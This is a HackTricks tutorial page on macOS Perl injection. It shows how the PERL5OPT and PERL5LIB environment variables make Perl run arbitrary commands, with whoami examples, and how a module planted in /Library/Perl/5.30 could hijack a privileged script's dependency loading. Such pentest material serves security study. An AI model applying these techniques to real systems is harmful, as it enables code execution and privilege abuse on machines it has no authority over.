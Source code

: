 # macOS Perl Applications Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Via `PERL5OPT` & `PERL5LIB` env variable

Using the env variable PERL5OPT it's possible to make perl execute arbitrary commands.\
For example, create this script:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

Now **export the env variable** and execute the **perl** script:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```

Another option is to create a Perl module (e.g. `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

And then use the env variables:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```

## Via dependencies

It's possible to list the dependencies folder order of Perl running:

```bash
perl -e 'print join("\n", @INC)'
```

Which will return something like:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```

Some of the returned folders doesn't even exist, however, **`/Library/Perl/5.30`** does **exist**, it's **not** **protected** by **SIP** and it's **before** the folders **protected by SIP**. Therefore, someone could abuse that folder to add script dependencies in there so a high privilege Perl script will load it.

{% hint style="warning" %}
However, note that you **need to be root to write in that folder** and nowadays you will get this **TCC prompt**:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

For example, if a script is importing **`use File::Basename;`** it would be possible to create `/Library/Perl/5.30/File/Basename.pm` to make it execute arbitrary code.

## References

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
